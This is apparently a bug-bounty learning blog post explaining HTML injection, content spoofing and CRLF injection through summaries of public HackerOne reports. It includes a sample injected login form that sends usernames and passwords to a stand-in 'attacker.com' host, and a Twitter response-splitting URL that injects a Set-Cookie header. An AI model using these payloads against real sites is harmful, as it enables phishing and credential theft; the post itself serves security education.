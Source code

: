 ```yaml
---
title:  "Day 4/100 Hack and Improvement"
date: 2020-05-04
tags: [Penetration Testing, Hacking, Bug Bounty, Offensive Security]
header: 
  image: "assets/images/100dl/day4/header.jpg"
---
```


Day 4 from **100daysofhackandimprove** comes with a variety of vulnerabilities which includes HTML Injection, Content Spoofing, Carriage Return Line Feed Injection (CRLF), and (rajesh place). Among the time, web vulnerabilities will always be impressive which will need a strong support from the attackers creativity and skills. This post for day 4 will be strongly supported by the content that has been gotten from [Real-World Bug Hunting](https://www.amazon.com/Real-World-Bug-Hunting-Field-Hacking-ebook/dp/B072SQZ2LG).

## HTML Injection and Content Spoofing

From [Sam (CoffeeJunkie)](https://twitter.com/coffeejunkiee_), These attacks allow malicious users to inject content in the target's website. The attacker can inject HTML elements in order to design their attacks. As an example, attackers use the ```<form>``` tag which mimics a screen login. 

### HTML Injection

HTML injection occurs when a website allows an attacker to submit html tags, typically by some kind of  input form or URL parameters, once the HTML tags are submitted, the target's website proceeds to render the site with the attacker's tags. This kind of attack can lead to different kind of phishing activities. The HTML code below will create a input form which is suppose to trick the victim to send their sensitive data such as passwords and usernames to the attacker's site as the example down below. 
```html
<form method='POST' action='http://attacker.com/capture.php' id='login-form'>
      <input type='text' name='username' value=''>
      <input type='password' name='password' value=''>
      <input type='submit' value='submit'>
   </form>
```

### Content Spoofing

This kind of attack is very similar to HTML injection, it differs because the attackers can just inject plain text, not HTML tags. This limitation is typically caused by sites either escaping any included HTML or HTML tags being stripped when the server sends the HTTP response.

### Write Ups and Examples
### HTML Injection

[**COINBASE COMMENT INJECTION THROUGH CHARACTER ENCODING**](https://hackerone.com/reports/104543/)

If you're interested to check the full video, you have to check the write up. In this, the website was filtering HTML tags to defend against this attack, then in this, the website was filtering HTML tags to defend against this attack. If you're interested in encoded values [here](https://gchq.github.io/CyberChef/) you can find a swiss knife to encode and decode different values.

[**HACKERONE UNINTENDED HTML INCLUDE FIX BYPASS**](https://hackerone.com/reports/112935/)
In this case, the attacker tried to submit different kind of parameters in the reporting page of the bug bounty program at Hacker One. As something interesting, the attacker tried to full the markdown style at the time to submit the reports. In this case he bypassed the fix from the other report. 

### Security Content Spoofing
[CONTENT SPOOFING OR TEXT INJECTION IN withinsecurity.com](https://hackerone.com/reports/111094/)
So the attacker at the time to look for the vulnerability realize some of the patterns related in in the URL which displays text. Then, he change the text in the URL in order to make it display differently. It ended up something like this. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/100dl/day4/PoC.jpg" alt="oscp list">

## Carriage Return Line Feed Injection (CRLF)

Some vulnerabilities allow users to put encoded characters that have meaning for HTML and HTTP responses. Most of the cases developers try to sanitize the input, or some of them don't sanitize them properly. If the server interpret the special characters, it can alter the original HTTP response which allows the attacker to manipulate the application's behavior. Two common examples are the characters ```%0D``` and ```%0A``` which represent ```\n``` which is the carriage return and ```\r``` which is the line feed. These characters are the ones that are referred as CRLFs. Servers use these characters to identify things such as headers. Therefore a CRLF injection injection vulnerability occurs when the application does not sanitize the user's input properly. An attacker can achieve HTTP smuggling and HTTP Splitting Attacks. 

### HTTP Request Smuggling 

This attack occurs when the attacker is able to exploit a CRLF injection in order to append an extra HTTP request to the initial request. The application does not anticipate the CRLF injection, therefore the application treats these two requests as a single request. This type of vulnerability can result in cache poisoning, firewall evasion, request hijacking, or HTTP response splitting.

### HTTP Splitting

This allows to split an HTTP response by injecting new headers. There are two methods that attackers use to split the response:

1. The attacker uses CRLF characters to complete the initial response. 
2. Insert additional headers in order to generate a new HTTP response. 

Sometimes the attacker may modify the response and not inject a completely new HTTP response.  If the application limit the amount of characters that the attacker can submit, this can lead to the other side of the attack which is change headers such as ```location```. If this happens, this can lead to XSS as well. 

### Write Ups and Explanations
[**V.SHOPIFY.COM RESPONSE SPLITTING**](https://hackerone.com/reports/106427/)

So the attacker discover an HTTP Splitting attack which allows to deface a website with the following url. The attacker injected the following characters ```%0d%0a```. The attacker injected the following headers ```Content-Length``` and ```Content-Type```.

[**TWITTER HTTP RESPONSE SPLITTING**](https://hackerone.com/reports/52042/)

The attacker used special chinese characters because the website was protected agains CRLF injection. The attack allowed to set a extra cookie. this is the following URL
```
# Encoded URL
https://twitter.com/i/safety/report_story?next_view=report_story_start&source=reporttweet&reported_user_id=1&reporter_user_id=1&is_media=true&is_promoted=true&reported_tweet_id=%E5%98%8A%E5%98%8DSet-Cookie:%20test

# Decoded URL 
https://twitter.com/i/safety/report_story?next_view=report_story_start&source=reporttweet&reported_user_id=1&reporter_user_id=1&is_media=true&is_promoted=true&reported_tweet_id=嘊嘍Set-Cookie: test
```

Besides this, he look out for way to escalate the attack to XSS. 